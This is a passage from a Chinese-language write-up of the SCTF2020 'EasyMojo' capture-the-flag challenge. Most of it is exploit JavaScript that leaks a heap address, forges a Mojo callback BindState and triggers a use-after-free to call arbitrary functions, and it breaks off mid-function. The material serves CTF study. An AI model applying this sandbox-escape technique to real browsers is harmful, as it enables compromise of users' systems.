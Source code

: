 ```js

                }
            }
            if (bufferleak == undefined) {
                print("\t[!] stage1 failed");
                continue;
            }
            break;
        }

        bufferleak = bufferleak + BigInt(dataOffset)
        print("\t[*] Success!  0x"+bufferleak.toString(16));

        allocation.originalRead = allocation.read;
        allocation.read = (offset, size) => allocation.originalRead(offset + dataOffset, size);

        return [allocation, bufferleak];
    }
}
```

之后伪造callback对象就可以通过这个封装好的函数完成。

之后的任务就是伪造callback对象，伪造callback对象，只需要关注`polymorphic_invoke`怎么找的问题，可以看看这个`invoker`一般情况下是什么样的：

![image-20200707200928740](SCTF2020-EasyMojo.assets/image-20200707200928740.png)

图片中的这个`invoker`也是我exp中使用的，这个`invoker`传递了四个参数，可以满足绝大部分需求。

实现任意函数带参数调用的关键就是找到这个`invoker`了，解决之后就可以将操作封装了。

```js
async function callFunction(functionAddr, arg0=0n, arg1=0n, arg2=0n, arg3=0n){
    print("[*] Call function: 0x"+functionAddr.toString(16));
    let k4ArgBindStateSize = 0x48;
    let bindState = new ArrayBuffer(k4ArgBindStateSize);
    let view = new DataView(bindState);
    view.setBigUint64(0, 1n, true); // refcount
    view.setBigUint64(8, kInvoker4Args, true); // polymorphic_invoke
    view.setBigUint64(0x10, kNopRet, true); // destructor
    view.setBigUint64(0x18, kNopRet, true); // query_cancellation_traits
    view.setBigUint64(0x20, functionAddr, true); // functor
    view.setBigUint64(0x28, arg0, true);
    view.setBigUint64(0x30, arg1, true);
    view.setBigUint64(0x38, arg2, true);
    view.setBigUint64(0x40, arg3, true);

    let [a, bindStateAddr] = await allocReadable(bindState);
    print("\t[*] allocated bindState at " + bindStateAddr.toString(16));

    let data = new ArrayBuffer(kMojoBufferSize);
    view = new DataView(data);
    view.setBigUint64(0, kInvokeCallbackVptr, true);
    view.setBigUint64(kBindStatePtrOffset, bindStateAddr, true);

    await uaf.alloc();
    await uaf.free();
```